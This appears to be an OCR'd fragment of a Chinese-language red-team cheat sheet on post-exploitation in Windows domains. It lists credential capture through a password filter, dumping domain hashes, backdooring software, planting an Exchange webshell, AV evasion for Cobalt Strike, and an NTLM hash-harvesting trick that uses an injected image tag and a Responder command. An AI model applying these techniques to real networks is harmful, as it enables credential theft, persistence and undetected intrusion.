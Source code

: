 ```
[https://gist.github.com/mubix/6514311#file-evilpassfilter-cpp](https://gist.github.com/mubix/6514311#file-evilpassfilter-cpp)
4. dump 域内所有hash
5. 常用软件插后门 https://github.com/secretsquirrel/the-backdoor-factory
6. cobalt-strike-persistence
[https://github.com/Tom4t0/cobalt-strike-persistence](https://github.com/Tom4t0/cobalt-strike-persistence)
7. EXCHANGE服务器留webshell
8. 控制一些vpn账号
9. dump dns解析记录  dump ldap信息

## 工作组渗透
## 常规内网渗透
1. 日服务
2. pass the hash

### 各种欺骗攻击
[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
撸下内网一个网站挂上```<img src=\\xxx\\xx>```然后执行下面命令，就可以抓取ntlmv2 hash

```
./Responder.py -I eth0 -rPv
```
![](http://ogmho3r7t.bkt.clouddn.com/2017-03-20-14816996917145.jpg)

SMBRelay Attack

![](http://ogmho3r7t.bkt.clouddn.com/2017-03-20-14817720462479.jpg)
impacket

### cobaltstrike工具免杀
cobaltstrike+veil


